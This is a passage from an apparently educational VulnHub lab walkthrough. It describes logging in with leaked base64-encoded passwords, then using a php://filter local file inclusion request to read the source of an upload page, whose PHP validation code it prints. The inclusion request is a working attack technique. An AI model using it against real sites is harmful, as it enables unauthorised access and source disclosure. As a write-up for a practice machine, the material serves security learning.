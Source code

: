 ![mysql](https://github.com/Git-K3rnel/VulnHub/assets/127470407/e1257850-8b93-462d-a687-4953066e060a)

here is the users base64 encoded passwords, login to the site with one of them for example `kent` :

![upload](https://github.com/Git-K3rnel/VulnHub/assets/127470407/b6fb91f5-2690-4d05-9a73-f4b1a2fc5837)

i tried to upload a php file but i couldn't, after spending some time to find out how to upload a file i came to notinng then i decided to get the source php code of the page :

```text
http://192.168.127.133/?page=php://filter/convert.base64-encode/resource=upload
```

the php section contains the following code :

```php
<?php 
if(isset($_POST['submit'])) {
	if ($_FILES['file']['error'] <= 0) {
		$filename  = $_FILES['file']['name'];
		$filetype  = $_FILES['file']['type'];
		$uploaddir = 'upload/';
		$file_ext  = strrchr($filename, '.');
		$imageinfo = getimagesize($_FILES['file']['tmp_name']);
		$whitelist = array(".jpg",".jpeg",".gif",".png"); 

		if (!(in_array($file_ext, $whitelist))) {
			die('Not allowed extension, please upload images only.');
		}

		if(strpos($filetype,'image') === false) {
			die('Error 001');
		}

		if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
			die('Error 002');
		}

		if(substr_count($filetype, '/')>1){
			die('Error 003');
		}

		$uploadfile = $uploaddir . md5(basename($_FILES['file']['name'])).$file_ext;

		if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
			echo "<img src=\"".$uploadfile."\"><br />";
		} else {
			die('Error 4');
		}
	}
}

?>
```
